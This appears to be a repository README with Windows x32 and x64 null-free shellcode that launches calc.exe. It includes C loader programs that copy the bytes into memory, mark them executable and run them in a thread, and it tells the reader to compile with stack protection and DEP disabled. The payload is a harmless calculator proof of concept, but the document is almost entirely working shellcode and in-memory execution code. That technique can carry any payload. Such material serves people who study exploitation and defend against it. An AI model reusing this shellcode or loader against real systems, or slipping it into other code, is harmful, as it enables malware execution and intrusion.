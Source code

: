 # WinShellcode

Windows(x32-x64) null-free shellcode to pop calc.exe
Feel free to contact if any question...



To run it successfully in Visual Studio, you’ll have to compile it with some protections disabled:
Security Check: Disabled (/GS-)
Data Execution Prevention (DEP): No


##########################################################
//testing: x64
//len: 265

#include <windows.h>
void main() {
    void* exec;
    BOOL rv;
    HANDLE th;
    DWORD oldprotect = 0;
    // Shellcode
    unsigned char payload[] =
        "\x50\x53\x51\x52\x57\x56\x55\x54\x41\x50\x41\x51\x41\x52\x41\x53\x41\x54\x41\x55\x41\x56\x41\x57\x41\x57\x48\x83\xec\x20\x48\x31\xdb\x65\x4c\x8b\x63\x60\x4d\x8b\x64\x24\x18\x49\x8b\x74\x24\x20\x48\xad\x48\x96\x48\xad\x4c\x8b\x78\x20\x4d\x31\xe4\x45\x8b\x67\x3c\x4d\x01\xfc\x4d\x31\xf6\x45\x8b\xb4\x24\x88\x00\x00\x00\x4d\x01\xfe\x4d\x31\xe4\x45\x8b\x66\x20\x4d\x01\xfc\xeb\x77\x48\x31\xff\x41\x8b\x3c\x9c\x4c\x01\xff\x48\xa7\x74\x09\x48\xff\xc3\x48\x83\xee\x08\xeb\xe9\x48\x31\xf6\x48\x31\xff\x41\x8b\x76\x24\x4c\x01\xfe\x66\x8b\x3c\x5e\x48\x31\xf6\x41\x8b\x76\x1c\x4c\x01\xfe\x4d\x31\xf6\x44\x8b\x34\xbe\x4d\x01\xfe\xeb\x14\x48\x31\xd2\x48\x83\xc2\x0a\x48\x83\xec\x20\x41\xff\xd6\x48\x83\xc4\x20\xeb\x38\xe8\x1d\x00\x00\x00\x43\x3a\x5c\x57\x69\x6e\x64\x6f\x77\x73\x5c\x53\x79\x73\x74\x65\x6d\x33\x32\x5c\x63\x61\x6c\x63\x2e\x65\x78\x65\x00\x59\xeb\xc7\xe8\x08\x00\x00\x00\x57\x69\x6e\x45\x78\x65\x63\x00\x5e\xe9\x76\xff\xff\xff\x48\x83\xc4\x20\x41\x5f\x41\x5f\x41\x5e\x41\x5d\x41\x5c\x41\x5b\x41\x5a\x41\x59\x41\x58\x5c\x5d\x5e\x5f\x5a\x59\x5b\x58\xc3";
    unsigned int payload_len = 263;
    exec = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    RtlMoveMemory(exec, payload, payload_len);
    rv = VirtualProtect(exec, payload_len, PAGE_EXECUTE_READ, &oldprotect);
    th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE)exec, 0, 0, 0);
    WaitForSingleObject(th, -1);
}

############################################################
//testing: x32
//len: 193 byte

#include <stdio.h>

unsigned char sc[] = 	"\x50\x53\x51\x52\x57\x56\x55\x55\x89\xe5\x83\xec\x18\x31\xf6\x56\x68\x78\x65\x63\x00\x68\x57\x69\x6e\x45\x89\x65\xfc\x31\xf6\x64\x8b\x5e\x30\x8b\x5b\x0c\x8b\x5b\x14\x8b\x1b\x8b\x1b\x8b\x5b\x10\x89\x5d\xf8\x8b\x43\x3c\x01\xd8\x8b\x40\x78\x01\xd8\x8b\x48\x24\x01\xd9\x89\x4d\xf4\x8b\x78\x20\x01\xdf\x89\x7d\xf0\x8b\x50\x1c\x01\xda\x89\x55\xec\x8b\x50\x14\x31\xc0\x8b\x7d\xf0\x8b\x75\xfc\x31\xc9\xfc\x8b\x3c\x87\x01\xdf\x66\x83\xc1\x08\xf3\xa6\x74\x0a\x40\x39\xd0\x72\xe5\x83\xc4\x28\xeb\x3f\x8b\x4d\xf4\x8b\x55\xec\x66\x8b\x04\x41\x8b\x04\x82\x01\xd8\x31\xd2\x52\x68\x2e\x65\x78\x65\x68\x63\x61\x6c\x63\x68\x6d\x33\x32\x5c\x68\x79\x73\x74\x65\x68\x77\x73\x5c\x53\x68\x69\x6e\x64\x6f\x68\x43\x3a\x5c\x57\x89\xe6\x6a\x0a\x56\xff\xd0\x83\xc4\x48\x5d\x5e\x5f\x5a\x59\x5b\x58\xc3";

int main()
{
	((void(*)())sc)();
	return 0;
}

##########################################################
